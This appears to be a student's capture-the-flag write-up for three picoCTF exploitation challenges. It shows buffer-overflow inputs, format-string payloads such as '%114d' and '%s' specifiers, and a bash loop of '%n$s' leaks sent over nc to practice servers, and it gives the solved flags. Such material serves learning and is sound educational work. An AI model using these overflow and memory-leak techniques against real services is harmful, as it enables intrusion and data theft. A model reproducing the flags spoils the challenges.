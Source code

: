 # buffer overflow 0
 

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}`

How you approached the challenge:
- On examining the source code, i found the sigsegv_handler function which will print the flag if a `SIGSEGV` or `SIGNAL SEGMENTATION VIOLATION` occurs.
- Now I only needed to trigger `SIGSEGV` , which can be achieved by buffer overflow.
- In the source code, two vulnerable functions are used, which are `gets` and `strcpy`, any of these can cause buffer overflow.
- If i input a string with more than 100 characters, the `gets` function in `main` will trigger `SIGSEGV`.
- If i input a string with more than 16 character, the `strcpy` function in `vuln` will trigger `SIGSEGV`
```bash
vishad@VISHAD:~$ nc saturn.picoctf.net 49889
Input: 123412341234123412341
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```  
What you learned through solving this challenge:

1. Buffer Overflow

2. Signaling `SIGSEGV` using `signal` 

4. Difference between `gets` & `fgets`

5. Risky C function which can lead to security risks , like `gets` and `strcpy`

References
- https://owasp.org/www-community/attacks/Buffer_overflow_attack
- https://www.geeksforgeeks.org/segmentation-fault-sigsegv-vs-bus-error-sigbus/

- etc.


# format string 0

**Flag:**  `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}`

  How you approached the challenge:
-  Upon examining the source code , I noticed there is `SIGSEGV` handler function , which means that a buffer overflow could leak the flag (as in the previous question), so i tried inputting a string with 48 characters & it fetched me the flag.
```bash
vishad@VISHAD:~$ nc mimas.picoctf.net 65521
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: 123456789123456789123456789123456789123456789123
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
```  


- I noticed `printf(choice1)` in the source code , which is a `format string vulnerability`, and different format specifiers like `%x %s etc` be used to extract data from stack memory leaking sensitive information.
- In the `serve_patrick` function , we need to input a burger name which should have characters more than `2*BUFSIZE` which is `64` to go to the next function `serve_bob` .
- Inputting any random string of more than 64 characters will not work because the `on_menu` function will check that it has to be out of the 3 given burgers.
- So I noticed `Gr%114d_Cheese` burger, which has a `%114d` in between it's string, is treated as a format specifier for `print` function which forces it to print `114` characters between `Gr` and `_cheese`.
- This makes the count have more than 64 characters `(123 to be exact)` and also passes the `on_menu` test & moves ahead to `serve_bob` 

```bash
vishad@VISHAD:~$ nc mimas.picoctf.net 65521
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
```
- Same logic is applied in the `serve_bob` function and I chose `Cla%sic_Che%s%steak` burger because `%s` is format string vulnerability and will leak sensitive information.
```bash
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
```
What you learned through solving this challenge:
1. Format String Vulnerability

2. using `print` without format specifiers can be dangerous

3. `scanf` can also cause buffer overflows

Other incorrect methods you tried:

 - I tried to overflow the buffer by inputting 33 characters (because BUFSIZE was 32) , but it did not happen and simply printed `There is no such burger yet!`

References
- https://owasp.org/www-community/attacks/Format_string_attack

# flag leak

**Flag:**  `picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}`

How you approached the challenge:

-we can see the string vulnerability in `printf(story);`, so i decided to do `%n$s` to leak the flag as string instead of hexadecimal when using `%x`, on writing `%n$s` i got random text like `   ` , so i needed to access various memory locations, and i decided to make a loop for `%n$s` from 1 to 50 and got the flag in between somewhere.
```bash
vishad@vishad:~$ for n in {1..50}; do echo "%${n}\$s" | nc saturn.picoctf.net 54992; done
Tell me a story and then I'll tell you one >> Here's a story -
%1$s
Tell me a story and then I'll tell you one >> Here's a story -
a  
Tell me a story and then I'll tell you one >> Here's a story -
 ú,
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
/
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
 .
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
       
Tell me a story and then I'll tell you one >> Here's a story -
 (  g  g  g  g  g  g  g  h  
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
setresgid
Tell me a story and then I'll tell you one >> Here's a story -
 !( 
Tell me a story and then I'll tell you one >> Here's a story -
  e 

Tell me a story and then I'll tell you one >> Here's a story -
setresgid
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
CTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}
Tell me a story and then I'll tell you one >> Here's a story -
  
   
```

What you learned through solving this challenge:
1. use of `%n$s` in memory leak
2. Automatically getting values from different `n` using loop
  
Other incorrect methods you tried:
- Tried `%x%x...` multiple times
- Using `%s` without providing a memory address

References

 - https://www.geeksforgeeks.org/format-string-vulnerability-and-prevention-with-example/
 - https://owasp.org/www-community/attacks/Format_string_attack